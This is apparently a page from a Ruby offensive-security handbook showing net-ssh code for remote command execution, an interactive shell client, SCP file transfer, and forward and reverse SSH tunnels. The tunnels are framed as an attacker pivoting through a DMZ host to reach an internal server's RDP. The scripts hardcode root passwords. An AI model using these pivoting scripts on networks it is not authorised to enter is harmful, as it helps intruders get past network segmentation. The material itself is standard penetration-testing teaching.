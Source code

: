 # SSH
Here we shows some SSH using ruby
we'll need to install net-ssh gem for that

```
gem install net-ssh
```

## Simple SSH command execution 
This is a very basic ssh client which sends and executes commands on a remote system 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

begin
  ssh = Net::SSH.start(@hostname, @username, :password => @password)
  res = ssh.exec!(@cmd)
  ssh.close
  puts res
rescue
  puts "Unable to connect to #{@hostname} using #{@username}/#{@password}"
end
```

## SSH Client  
Here a simple ssh client which give you an interactive PTY

```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

@hostname = "localhost"
@username = "root"
@password = "password"
@cmd = ARGV[0]

Net::SSH.start(@hostname, @username, :password => @password, :auth_methods => ["password"]) do |session|

  # Open SSH channel 
  session.open_channel do |channel|
    
    # Requests that a pseudo-tty (or "pty") for interactive application-like (e.g vim, sudo, etc)
    channel.request_pty do |ch, success| 
      raise "Error requesting pty" unless success 

      # Request channel type shell
      ch.send_channel_request("shell") do |ch, success| 
        raise "Error opening shell" unless success
	STDOUT.puts "[+] Getting Remote Shell\n\n" if success
	sleep 0.5
      end  
    end

    # Print STDERR of the remote host to my STDOUT
    channel.on_extended_data do |ch, type, data|
      STDOUT.puts "Error: #{data}\n"
    end

    # When data packets are received by the channel
    channel.on_data do |ch, data|
      STDOUT.print data 
      cmd = gets
      channel.send_data( "#{cmd}" ) #unless cmd.empty?
      channel.send_data "\n" if data.chomp.empty?
      trap("INT") {STDOUT.puts "Use 'exit' or 'logout' command to exit the session"}
    end 
    
    channel.on_eof do |ch|
      puts "Exiting SSH Session.."
    end
    
    session.loop
  end  
end    

```


## SSH Tunneling

### Forward SSH Tunnel

```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| ----SSH Tunnel---> | |SSH Server| <-RDP-> |Web server| |
                              |                 |                 |
                              |-----------------|-----------------|
```

Run ssh-ltnnel.rb on the **SSH Server** 

**ssh-ftunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("127.0.0.1", 'root', :password => '123132') do |ssh|

  ssh.forward.local('0.0.0.0', 3333, "WebServer", 3389)

  puts "[+] Starting SSH forward tunnel"
  ssh.loop { true }
end
```

Now connect to the **SSH Server** on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop WebServer:3333
```


### Reverse SSH Tunnel 
```
                              |--------DMZ------|---Local Farm----|
                              |                 |                 |
|Attacker| <---SSH Tunnel---- | |SSH Server| <-RDP-> |Web server| |
  |->-|                       |                 |                 |
                              |-----------------|-----------------|
```
Run ssh-rtnnel.rb on the **SSH Server** 

**ssh-rtunnel.rb**
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
require 'net/ssh'

Net::SSH.start("AttacerIP", 'attacker', :password => '123123') do |ssh|

  ssh.forward.remote_to(3389, 'WebServer', 3333, '0.0.0.0')
  
  puts "[+] Starting SSH reverse tunnel"
  ssh.loop { true }
end
```

Now SS from the **SSH Server** to **localhost** on the localhost's ssh port then  connect from your localhost to your localhost on port 3333 via your RDP client, you'll be prompt for the **WebServer**'s RDP log-in screen

```
rdesktop localhost:3333
```



## Copy files via SSH (SCP)

- To install scp gem
```
gem install net-scp
```

- Upload file 

```ruby
require 'net/scp'

Net::SCP.upload!(
    		        "SSHServer", 
                    "root",
                    "/rubyfu/file.txt", "/root/", 
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                )
```

- Download file 

```ruby
require 'net/scp'

Net::SCP.download!(
    		        "SSHServer", 
                    "root",
                    "/root/", "/rubyfu/file.txt",
                    #:recursive => true,    # Uncomment for recursive
                    :ssh => { :password => "123123" }
                  )
```




<br><br><br>
---
- [More SSH examples](http://ruby.about.com/sitesearch.htm?q=ruby+ssh&boost=3&SUName=ruby)
- [Capistranorb.com](http://capistranorb.com/)
- [Net:SSH old docs with example](http://net-ssh.github.io/ssh/v1/chapter-6.html)



